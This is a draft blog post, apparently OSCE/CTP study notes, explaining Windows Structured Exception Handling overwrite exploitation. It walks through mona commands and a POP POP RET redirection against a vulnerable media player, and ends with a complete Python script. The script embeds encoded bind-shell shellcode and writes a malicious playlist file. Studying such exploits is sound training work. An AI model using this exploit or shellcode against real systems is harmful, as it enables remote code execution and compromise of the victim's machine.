 ```yaml
---
layout: single
title: "SEH primer for CTP"
excerpt: "A primer for n00bs like myself in preparation for the CTP course offered by Offensive Security"
date: 2020-07-xx
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - OSCE
  - infosec
tags:
  - ctp
  - osce
  - assembly
---
```

# THIS IS A DRAFT
## A primer on Structured Exception Handling (win32 exploitation)

*This article is written to help those who want a conceptual grasp on SEH exploits, I wrote this to help myself obtain a clear understanding before my CTP course starts.*

##### There are already many fantastic articles on this subject out there (some of which are linked throughout this article), which I encourage you to consume in order to get an even better understanding. 

#### What is an exception Handler?

In simple terms, an Exception Handler is exactly as the name implies, it *handles exceptions*, that is to say, when a program reaches something outside it's known functionality, an exception is raised (eg if a program wants an input between 2 and 5, and you put in 6). The program then needs to know how to *handle* this, either with an error message, exit code, or whatever else.

A Structured Exception Handler will follow a structure in  regards to handling exceptions.

For every exception handler, there is an Exception Registration Record structure.
These structures are chained together to create a "linked list" (a linked list contains a sequence of data records).

When an exception is triggered the OS scans down this list to evaluate the other exception functions until it finds a suitable exception handler for the current exception. (If no error is found, windows places a generic handler at the end to ensure it wil be handled in some manner).

When an exception occurs and the Exception Handler (SEH) is called, it’s value is put in EIP. Since we have control over SEH, we now have control over EIP and the execution flow of the application. 


#### SO WHY IS THIS RELEVANT TO US??!

Well, when we send an attack string which happens to overwrite the SEH, windows will zero out the CPU registers, thus breaking our jump to shellcode ;(

#### What we can do:

Overwrite SEH with a pointer to POP POP RETN. 

#### Why would we want to do that?

Well, first remember that after passing the first exception, EIP is overwritten with the value of SEH.
Second, the registers to which the bytes are popped into **are not important**, what is important is that when a POP occurs, ESP is shifted +4. When a RET is called, the ESP address are moved into EIP and executed.

Remember that the SEH is located at ESP+8, so if we increment the stack pointer by 8bytes and return to the new pointer we will then be executing nSEH. 

EG a program crashes, registers get zeroed and SP +8 is overwritten with crash string eg 41414141

![SEH_overwrite](/assets/images/seh/SEH_overwrite.jpg)

When an exception occurs and the Exception Handler (SEH) is called, it’s value is put in EIP. Since we have control over SEH, we now have control over EIP and the execution flow of the application. 
We also know that the EstablisherFrame (which starts with Next SEH) is located at ESP+8, so if we can load that value into EIP we can continue to control the execution flow of the application.

## Demonstration

To demonstrate this, we use example exercise from [https://www.fuzzysecurity.com/tutorials/expDev/3.html](https://www.fuzzysecurity.com/tutorials/expDev/3.html) (vulnerable software link is broken, software available on exploit-DB [here](https://www.exploit-db.com/exploits/17803)).
**Another invaluable resource for this subject is: [https://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/](https://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/)**


As the steps to exploitation have already been covered, I will not run through them again here, only provide a brief summary.

First, we crash the application with a pattern attack string to locate the offset to SEH, which mona will do the heavy lifting for.

As below we see SEH overwritten and offset located:

![SEH_crash](/assets/images/seh/SEH_crash.jpg)

Calculate offsets with `!mona findmsp`

![SEH_control](/assets/images/seh/SEH_examine.jpg)

Now that we know the offset, we confirm control by crashing with another simple attack string as per the offset specified when we examined with `!mona findmsp`

```
nSEH="B"*4
SEH="C"*4
buffer = "A"*608 + nSEH + SEH + "D"*1384
```


Proof of control: 

![SEH_control](/assets/images/seh/SEH_control.JPG)

Now we choose an address to point to in a module containing POP+POP+RET with `!mona seh`

![SEH_pointer](/assets/images/seh/SEH_pointers.jpg)

Next:
* I choose 0x6162e557
* flip for little endian `"\x57\xe5\x62\x61"`
* modify my malicious playlist generator (obtained from [Fuzzy Security](https://www.fuzzysecurity.com/tutorials/expDev/3.html))
* restart the program in immunity, set a break point by going to expression 
* Import playlist
* Pass first exception (shift+F9)
* Hit breakpoint
* step through to call RET (F7)

Now as you can see below, EIP is now at the address of POP+POP+RET, step through until RET is called, and the next screenshot will show we have reached nSEH.

![SEH_break_PPR](/assets/images/seh/SEH_break_PPR.jpg)

![SEH_after_PPR](/assets/images/seh/SEH_after_PPR.jpg)

Now you may have guessed something based of the below sequence, that's right! if we continue we end up in an infinite loop - this is because as we hit BBBB, ANOTHER exception is raised, thus calling POP+POP+RET again...

So now we need to replace nSEH with opcode that will JMP over the next few bytes of space. A safe amount would be 10, and pad the beginning of shellcode with NOPS.

Once this is done some shellcode is generated and placed AFTER SEH but BEFORE the rest of the attack string which should be big enough to overflow the application as below:

```#!/usr/bin/python -w
shellcode="\x90"*10+("\xd9\xc2\xd9\x74\x24\xf4\xba\x75\xad\xc8\xb1\x58\x33\xc9\xb1"
"\x53\x83\xe8\xfc\x31\x50\x13\x03\x25\xbe\x2a\x44\x39\x28\x28"
"\xa7\xc1\xa9\x4d\x21\x24\x98\x4d\x55\x2d\x8b\x7d\x1d\x63\x20"
"\xf5\x73\x97\xb3\x7b\x5c\x98\x74\x31\xba\x97\x85\x6a\xfe\xb6"
"\x05\x71\xd3\x18\x37\xba\x26\x59\x70\xa7\xcb\x0b\x29\xa3\x7e"
"\xbb\x5e\xf9\x42\x30\x2c\xef\xc2\xa5\xe5\x0e\xe2\x78\x7d\x49"
"\x24\x7b\x52\xe1\x6d\x63\xb7\xcc\x24\x18\x03\xba\xb6\xc8\x5d"
"\x43\x14\x35\x52\xb6\x64\x72\x55\x29\x13\x8a\xa5\xd4\x24\x49"
"\xd7\x02\xa0\x49\x7f\xc0\x12\xb5\x81\x05\xc4\x3e\x8d\xe2\x82"
"\x18\x92\xf5\x47\x13\xae\x7e\x66\xf3\x26\xc4\x4d\xd7\x63\x9e"
"\xec\x4e\xce\x71\x10\x90\xb1\x2e\xb4\xdb\x5c\x3a\xc5\x86\x08"
"\x8f\xe4\x38\xc9\x87\x7f\x4b\xfb\x08\xd4\xc3\xb7\xc1\xf2\x14"
"\xb7\xfb\x43\x8a\x46\x04\xb4\x83\x8c\x50\xe4\xbb\x25\xd9\x6f"
"\x3b\xc9\x0c\x05\x33\x6c\xff\x38\xbe\xce\xaf\xfc\x10\xa7\xa5"
"\xf2\x4f\xd7\xc5\xd8\xf8\x70\x38\xe3\x03\xb8\xb5\x05\x61\xaa"
"\x93\x9e\x1d\x08\xc0\x16\xba\x73\x22\x0f\x2c\x3b\x24\x88\x53"
"\xbc\x62\xbe\xc3\x37\x61\x7a\xf2\x47\xac\x2a\x63\xdf\x3a\xbb"
"\xc6\x41\x3a\x96\xb0\xe2\xa9\x7d\x40\x6c\xd2\x29\x17\x39\x24"
"\x20\xfd\xd7\x1f\x9a\xe3\x25\xf9\xe5\xa7\xf1\x3a\xeb\x26\x77"
"\x06\xcf\x38\x41\x87\x4b\x6c\x1d\xde\x05\xda\xdb\x88\xe7\xb4"
"\xb5\x67\xae\x50\x43\x44\x71\x26\x4c\x81\x07\xc6\xfd\x7c\x5e"
"\xf9\x32\xe9\x56\x82\x2e\x89\x99\x59\xeb\xb9\xd3\xc3\x5a\x52"
"\xba\x96\xde\x3f\x3d\x4d\x1c\x46\xbe\x67\xdd\xbd\xde\x02\xd8"
"\xfa\x58\xff\x90\x93\x0c\xff\x07\x93\x04")
  
filename="seh.plf"
#0x6162e557
buffer = "A"*608 + "\xeb\x10\x90\x90" + "\x57\xe5\x62\x61" + shellcode+ "B"*(1384-len(shellcode))
textfile = open(filename , 'w')
textfile.write(buffer)
textfile.close()
```
Now we generate our malicious playlist and open it in again - this time immunity does not register a crash, and we are able to connect to the bind shell payload:

![SEH_exploited](/assets/images/seh/SEH_exploited.jpg)

So the takeaways for exploiting SEH are:

* As always calculate the overflow amount
* calculate the offset to SEH
* confirm control of nSEH and SEH
* Use SEH to move up 8 to nSEH
* Use nSEH to Jump back over SEH and into shellcode

I hope as an aspiring OSCE/security researcher you found this informative and above else *helpful*
If anyone has any suggestions, criticisms or wants to be my friend :) I am welcome to all feedback

# THIS IS A DRAFT
